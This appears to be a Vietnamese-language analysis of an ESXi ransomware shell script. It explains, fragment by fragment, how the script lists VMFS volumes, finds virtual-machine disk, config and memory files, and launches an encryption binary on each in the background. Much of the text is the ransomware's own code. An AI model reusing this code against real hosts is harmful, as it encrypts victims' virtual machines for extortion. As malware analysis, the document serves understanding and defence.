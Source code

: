 ```bash
          size_step=$((($size_kb/1024/100)-1))
        fi
        echo "START ENCRYPT: $file_e SIZE: $size_kb STEP SIZE: $size_step" "\"$file_e\" $size_step 1 $((size_kb*1024))"
        echo $size_step 1 $((size_kb*1024)) > "$file_e.args"
        nohup $CLEAN_DIR/encrypt $CLEAN_DIR/public.pem "$file_e" $size_step 1 $((size_kb*1024)) >/dev/null 2>&1&
      fi
  done
  IFS=$" "
done
```

Phân tích đoạn này nào: 

```bash
for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
```

Vòng lặp đầu tiên sẽ đi qua các cái volume trong folder `/vmfs/volumes/`.

```bash
for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
```

Vòng lặp thứ 2 sẽ tìm các file trong các volume đó với các đuôi sau:
- `.vmdk`
- `.vmx`
- `.vmxf`
- `.vmsd`
- `.vmsn`
- `.vswp`
- `.vmss`
- `.nvram`
- `.vmem`

```bash
if [[ -f "$file_e" ]]; then
    size_kb=$(du -k $file_e | awk '{print $1}')
    if [[ $size_kb -eq 0 ]]; then
        size_kb=1
    fi
    size_step=0
    if [[ $(($size_kb/1024)) -gt 128 ]]; then
        size_step=$((($size_kb/1024/100)-1))
    fi
```

Đoạn này của script sẽ tính kích cỡ của các file tìm được trong vòng lặp thứ 2. Số bước để mã hóa file (số MB để skip) sẽ được suy ra từ kích cỡ của file.

```bash
nohup $CLEAN_DIR/encrypt $CLEAN_DIR/public.pem "$file_e" $size_step 1 $((size_kb*1024)) >/dev/null 2>&1&
```
